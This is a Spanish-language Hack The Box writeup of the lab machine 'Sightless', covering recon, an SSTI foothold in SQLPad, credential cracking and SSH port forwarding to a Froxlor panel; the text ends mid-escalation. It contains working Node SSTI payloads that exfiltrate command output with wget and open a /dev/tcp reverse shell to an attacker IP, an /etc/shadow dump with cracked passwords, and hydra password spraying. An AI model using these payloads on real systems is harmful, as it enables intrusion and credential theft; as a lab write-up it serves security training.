+++
author = "Andrés Del Cerro"
title = "Hack The Box: Sightless Writeup | Easy"
date = "2025-03-19"
description = ""
tags = [
    "HackTheBox",
    "Sightless",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "CVE-2022-0944",
    "Server-Side Template Injection",
    "User Pivoting",
    "Hash Cracking",
    "Cracking",
    "Information Disclosure",
    "Password Spraying",
    "Port Forwarding",
    "Abusing Chrome Debugger",
    "Weaponizing Froxlor"
]

+++

# Hack The Box: Sightless Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Sightless"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.198.243 --ulimit 5000 -g
10.129.198.243 -> [21,22,80]
```

```console
$ nmap -p21,22,80 -sCV 10.129.198.243 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 20:40 CEST
Nmap scan report for 10.129.198.243
Host is up (0.038s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.198.243]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/9%Time=66DF4147%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,A3,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20S
SF:erver\)\x20\[::ffff:10\.129\.198\.243\]\r\n500\x20Invalid\x20command:\x
SF:20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try
SF:\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.99 seconds

```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.198.243 -oN allPorts.UDP                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 20:41 CEST                                                    
Nmap scan report for 10.129.198.243                                                                                    
Host is up (0.038s latency).                                                                                           
Not shown: 1494 open|filtered udp ports (no-response)                                 
PORT      STATE  SERVICE   
1524/udp  closed ingreslock
21834/udp closed unknown
28098/udp closed unknown
28122/udp closed unknown     
31852/udp closed unknown                                                                                                                          
34422/udp closed unknown                                                                                                                          
                                    
Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
```

Del escaneo inicial encontramos el dominio `sightless.htb`, lo añadimos al `/etc/hosts`

# FTP Enumeration
Me llama la atención el reporte de `nmap` en base al puerto 21, ya que no me ha reportado ni si quiera la versión de `ProFTPD`

Al intentar conectarme por FTP como el usuario `anonymous` me encuentro el siguiente error.
```console
$ ftp anonymous@sightless.htb                                                                                                             
Connected to sightless.htb.                                                                                                                       
 220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.198.243]                                                                            
550 SSL/TLS required on the control channel                                                                                                       
ftp: Login failed                                                                
```

Podemos intentar solucionar este error utilizando `lftp` pero encontramos otro error distinto.
```console
$ lftp anonymous@10.129.198.243
Password: 
lftp anonymous@10.129.198.243:~> dir               
ls: Fatal error: Certificate verification: The certificate is NOT trusted. The certificate issuer is unknown.  (A1:4B:95:93:0A:CF:15:CD:DD:52:68:ED:DB:5B:92:ED:F0:F3:3C:69)
```

Parece que vamos a necesitar un certificado generado por el servidor si queremos poder acceder al FTP.

# HTTP Enumeration
`whatweb` no me reporta nada relevante.
```console
$ whatweb sightless.htb
http://sightless.htb [200 OK] Country[RESERVED][ZZ], Email[sales@sightless.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.198.243], Title[Sightless.htb], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

Así se ve el sitio web.


Encontramos un subdominio, `sqlpad.sightless.htb`, lo añadimos al `/etc/hosts`


Parece que no necesitamos iniciar sesión para utilizar esta instancia.


## CVE-2022-0944 RCE (failed)
Encontramos [este PoC para explotar el CVE-2022-0944](https://github.com/shhrew/CVE-2022-0944) podemos probarlo para comprobar si la instancia de sqlpad es vulnerable.

Nos clonamos el repositorio.
```console
$ git clone https://github.com/shhrew/CVE-2022-0944
Cloning into 'CVE-2022-0944'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 11 (delta 2), reused 8 (delta 2), pack-reused 0 (from 0)
Receiving objects: 100% (11/11), 4.08 KiB | 4.08 MiB/s, done.
Resolving deltas: 100% (2/2), done.
```

Instalamos las dependencias.
```console
$ pip3 install -r requirements.txt
```

Nos automatiza la reverse shell pero no conseguimos nada.
```console
$ sudo python3 main.py http://sqlpad.sightless.htb:80 127.0.0.1 443                                                                       
[*] Checking for new versions of pwntools                                                                                                         
    To disable this functionality, set the contents of /root/.cache/.pwntools-cache-3.11/update to 'never' (old way).                             
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):                                               
        [update]                                                                                                                                  
        interval=never                                                                                                                            
[*] You have the latest version of Pwntools (4.13.0)                                                                                              
[+] Trying to bind to 127.0.0.1 on port 443: Done                                                                                                 
[◓] Waiting for connections on 127.0.0.1:443
```

## Server-Side Template Injection -> Foothold
Investigando un poco me di cuenta de que se explota un SSTI, y haciendo una prueba simple podemos ver la vulnerabilidad.


Conseguimos ejecutar comandos haciendo una explotación manual.

El payload que he utilizado es el siguiente.
```console
127.0.0.1 || {{ process.mainModule.require('child_process').exec('wget http://10.10.14.143:8081/?jbXWVuIjmuq=$(COMANDO | base64)') }}
```

Si por ejemplo ejecutamos un `ls` y estamos sirviendo un servidor web por el puerto 8081.
```console
$ sudo python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.198.243 - - [09/Sep/2024 21:10:52] "GET /?jbXWVuIjmuq= HTTP/1.1" 200 -
10.129.198.243 - - [09/Sep/2024 21:10:52] "GET /?jbXWVuIjmuq= HTTP/1.1" 200 -
10.129.198.243 - - [09/Sep/2024 21:11:04] "GET /?jbXWVuIjmuq=Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q HTTP/1.1" 200 -
```

Vemos que me llega una petición GET con esta información `Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q` en el parámetro `jbXWVuIjmuq`

Si lo decodificamos vemos que es el output del comando `ls` ejecutado en el servidor.
```console
$ echo "jbXWVuIjmuq=Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q" | base64 -d
V#*
as.db
cache
db.db
index.html?hQkCcZQMjNta=
index.html?j
```

Nos podemos mandar una reverse shell.
```python
127.0.0.1 || {{ process.mainModule.require('child_process').exec('wget http://10.10.14.143:8081/?jbXWVuIjmuq=$(bash -c "bash -i >& /dev/tcp/10.10.14.143/443 0>&1" | base64)') }}
```

Y si nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
/usr/local/lib/python3.11/dist-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated and will be removed in a future release
  'class': algorithms.Blowfish,
[21:13:39] Welcome to pwncat 🐈!                                                                                                   __main__.py:164
[21:14:12] received connection from 10.129.198.243:54260                                                                                bind.py:84
[21:14:13] 10.129.198.243:54260: registered new host w/ db                                                                          manager.py:957
(local) pwncat$                                                                                                                                   
(remote) root@c184118df0a6:/var/lib/sqlpad# whoami
root
```

Podemos comprobar que estamos en un contendor.
```console
(remote) root@c184118df0a6:/var/lib/sqlpad# hostname -I                                                                                          
172.17.0.2
```

## User Pivoting
Detectamos una base de datos SQLite llamada `sqlpad.sqlite`
```console
(remote) root@c184118df0a6:/var/lib/sqlpad# ls -la
total 236
-rw-r--r-- 1 root root      0 Sep  9 17:06 '*'
drwxr-xr-x 4 root root   4096 Sep  9 17:14  .
drwxr-xr-x 1 root root   4096 Mar 12  2022  ..
-rw-r--r-- 1 root root      0 Sep  9 17:06  as.db
drwxr-xr-x 2 root root   4096 Aug  9 11:17  cache
-rw-r--r-- 1 root root      0 Sep  9 17:06  db.db
-rw-r--r-- 1 root root      5 Sep  9 16:56 'index.html?hQkCcZQMjNta='
-rw-r--r-- 1 root root      5 Sep  9 17:08 'index.html?jbXWVuIjmuq='
-rw-r--r-- 1 root root    336 Sep  9 17:09 'index.html?jbXWVuIjmuq=.1'
-rw-r--r-- 1 root root    336 Sep  9 17:09 'index.html?jbXWVuIjmuq=.1.1'
-rw-r--r-- 1 root root    336 Sep  9 17:10 'index.html?jbXWVuIjmuq=.2'
-rw-r--r-- 1 root root    336 Sep  9 17:10 'index.html?jbXWVuIjmuq=.2.1'
-rw-r--r-- 1 root root    336 Sep  9 17:14 'index.html?jbXWVuIjmuq=.3'
-rw-r--r-- 1 root root    488 Sep  9 17:11 'index.html?jbXWVuIjmuq=Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q'
-rw-r--r-- 1 root root    488 Sep  9 17:11 'index.html?jbXWVuIjmuq=Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q.1'
drwxr-xr-x 2 root root   4096 Aug  9 11:17  sessions
-rw-r--r-- 1 root root 188416 Sep  9 17:15  sqlpad.sqlite
```

Haciendo uso de la función `download` de `pwncat` me voy a descargar el archivo.
```console
(local) pwncat$ download sqlpad.sqlite
sqlpad.sqlite ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 188.4/188.4 kB • ? • 0:00:00
[21:16:23] downloaded 188.42KiB in 0.43 seconds                                                                                     download.py:71
(local) pwncat$

```

Encontramos unos usuarios `admin` y `john` y un hash.
```console
$ sqlite3 sqlpad.sqlite 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
batches              query_acl            statements         
cache                query_tags           users              
connection_accesses  schema_version       vw_query_history   
connections          service_tokens     
queries              sessions           
sqlite> select * from users;
da9a25f7-588c-40f5-89db-58fbebab591f|admin@sightless.htb|admin||$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.RIIKRysR6pZnxquAWsLFcC||||2024-05-15 04:48:09.377 +00:00|2024-05-15 18:16:54.652 +00:00|0||
26113beb-60eb-4a58-81eb-2318e27eb3bf|john@sightless.htb|editor|||2d3499e3-16ba-4b4b-a49e-c7c5dca89f2d|||2024-05-15 12:29:23.725 +00:00|2024-05-15 12:29:27.257 +00:00||0|
sqlite> 
```

Aquí se ve mejor.
```SQL
select email, passhash from users;
admin@sightless.htb|$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.RIIKRysR6pZnxquAWsLFcC
john@sightless.htb|
```

## Hash Cracking
El hash fácilmente identificamos que es `bcrypt` comprobando los hashes de ejemplo de `hashcat`

|   |   |   |
|---|---|---|
|3200|bcrypt $2*$, Blowfish (Unix)|$2a$05$LhayLxezLhK1LhWvKxCyLOj0j1u.Kj0jZ0pEmm134uzrQlFvQJLF6|

Después de un rato conseguimos crackear el hash y la credencial es `admin`


Esta credencial por ahora no nos sirve.
También encontramos los usuarios `node` y `michael`
```console
remote) root@c184118df0a6:/home# ls -la                                                                                                         
total 20
drwxr-xr-x 1 root    root    4096 Aug  6 11:23 .
drwxr-xr-x 1 root    root    4096 Aug  2 09:30 ..
drwxr-xr-x 2 michael michael 4096 Aug  9 09:42 michael
drwxr-xr-x 1 node    node    4096 Aug  9 09:42 node
```

Detectamos una aplicación en `/usr/app`, si analizamos el archivo `docker-compose.yml`
```console
(remote) root@c184118df0a6:/usr/app# cat docker-compose.yml                                                                     21:39:15 [69/9495]
version: '3'                                                                                                                                      
services:                                                                                                                                         
  redis:                                                                                                                                          
    image: redis:6-alpine                                                                                                                         
    restart: always                                                                                                                               
    ports:                                                                                                                                        
      - 6379:6379                                                                                                                                 
                                                                                                                                                  
  ldap:                                                                                                                                           
    image: rroemhild/test-openldap                                                                                                                
    restart: always                                                                                                                               
    ports:                                                                                                                                        
      - 10389:10389                                                                                                                               
    healthcheck:                                                                                                                                  
      interval: 5s                                                                                                                                
      timeout: 2s                                                                                                                                 
      retries: 10                                                                                                                                 
      start_period: 20s                                                                                                                           
                                                                                                                                                  
  mssql:                                                                                                                                          
    image: 'mcr.microsoft.com/mssql/server:2019-CU8-ubuntu-16.04'                                                                                 
    hostname: 'mssql'                                                                                                                             
    restart: always                                                                                                                               
    ports:                                                                                                                                        
      - 1433:1433                                                                                                                                 
    environment:                                                                                                                                  
      - ACCEPT_EULA=Y
      - MSSQL_SA_PASSWORD=SuperP4ssw0rd!

```

## Information Disclosure
Vemos una credencial `SuperP4ssw0rd!` que no me sirvió para iniciar sesión ni por SSH ni por FTP en la máquina víctima.

También probé a ver si estaban puertos abiertos tanto en esta máquina como en la máquina víctima pero a través de su interfaz interna y no conseguí nada.

> [!NOTE]
> Para solucionar el error de FTP con `lftp` donde no se fía del certificado del servidor, podemos añadir la línea `set ssl:verify-certificate false` al fichero `.lftprc` de nuestro directorio de trabajo.
> ```console
> $ cat /home/pointedsec/.lftprc 
> set ssl:verify-certificate false
> ```

## Hash Cracking 2
Ya que en el contenedor somos `root` podemos leer los hashes de las cuentas de usuario leyendo el `/etc/shadow`

Y vemos dos hashes, uno para el usuario `root` y otro para `michael`
```console
(remote) root@c184118df0a6:/tmp# cat /etc/shadow                                                                                                 
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

Podemos introducir estos hashes en un fichero `hash.txt` e intentar crackearlos con `hashcat` utilizando el modo 1800.
```console
C:\Users\pc\Desktop\hashcat-6.2.6>.\hashcat.exe -a 0 -m 1800 .\hash.txt .\rockyou.txt
....
$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

Vemos que conseguimos romperlos.
- root -> blindside
- michael -> insaneclownposse

## Password Spraying
Ahora podemos hacer un ataque de diccionario a los usuarios encontrados con las credenciales encontradas y conseguimos credenciales como el usuario `michael` para acceder por SSH.
```console
$ hydra -L users.txt -P creds.txt 10.129.198.243 ssh -t 4 -V 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 21:59:27
[DATA] max 4 tasks per 1 server, overall 4 tasks, 12 login tries (l:4/p:3), ~3 tries per task
[DATA] attacking ssh://10.129.198.243:22/
[ATTEMPT] target 10.129.198.243 - login "michael" - pass "SuperP4ssw0rd!" - 1 of 12 [child 0] (0/0)
[ATTEMPT] target 10.129.198.243 - login "michael" - pass "blindside" - 2 of 12 [child 1] (0/0)
[ATTEMPT] target 10.129.198.243 - login "michael" - pass "insaneclownposse" - 3 of 12 [child 2] (0/0)
[ATTEMPT] target 10.129.198.243 - login "root" - pass "SuperP4ssw0rd!" - 4 of 12 [child 3] (0/0)
[22][ssh] host: 10.129.198.243   login: michael   password: insaneclownposse
[ATTEMPT] target 10.129.198.243 - login "root" - pass "blindside" - 5 of 12 [child 2] (0/0)
[ATTEMPT] target 10.129.198.243 - login "root" - pass "insaneclownposse" - 6 of 12 [child 1] (0/0)
[ATTEMPT] target 10.129.198.243 - login "john" - pass "SuperP4ssw0rd!" - 7 of 12 [child 0] (0/0)
[ATTEMPT] target 10.129.198.243 - login "john" - pass "blindside" - 8 of 12 [child 3] (0/0)
[ATTEMPT] target 10.129.198.243 - login "john" - pass "insaneclownposse" - 9 of 12 [child 2] (0/0)
[ATTEMPT] target 10.129.198.243 - login "node" - pass "SuperP4ssw0rd!" - 10 of 12 [child 1] (0/0)
[ATTEMPT] target 10.129.198.243 - login "node" - pass "blindside" - 11 of 12 [child 0] (0/0)
[ATTEMPT] target 10.129.198.243 - login "node" - pass "insaneclownposse" - 12 of 12 [child 3] (0/0)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 21:59:40
```

Podemos iniciar sesión por SSH
```console
$ sshpass -p 'insaneclownposse' ssh michael@sightless.htb
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael)
```

Y leer la flag de usuario.
```console
michael@sightless:~$ cat user.txt 
e47db9312c0f3...
```

# Privilege Escalation
Vemos que también está el usuario `john` en la máquina víctima.
```console
michael@sightless:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
michael:x:1000:1000:michael:/home/michael:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/bash
```

Encontramos un binario con permisos de SUID que no es habitual encontrarlo.
```console
michael@sightless:/opt/google/chrome$ find / -perm -4000 2>/dev/null
/opt/google/chrome/chrome-sandbox
/usr/bin/mount
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/umount
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

El binario al que me refiero es `/opt/google/chrome/chrome-sandbox`

Antes de estar tocando esto, vamos encontré otra cosa interesante.

## Port Forwarding
El puerto 8080 está abierto internamente.
```console
michael@sightless:/opt/google/chrome$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56893         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35171         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:45789         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                  
```


Vamos a hacer port-forwarding a este puerto con SSH ya que tenemos credenciales.
```console
$ sshpass -p 'insaneclownposse' ssh -L 8083:127.0.0.1:8080 michael@sightless.htb
```

Ahora nuestro puerto local 8083 es el puerto 8080 de la máquina víctima.

Encontramos una instancia de `Froxlor`


Enumerando la configuración de `apache2`  encontré dos cosas interesantes. Una que existe Virtual-Hosting en el servicio web del puerto 8080 y existe un subdominio llamado `admin.sightless.htb`
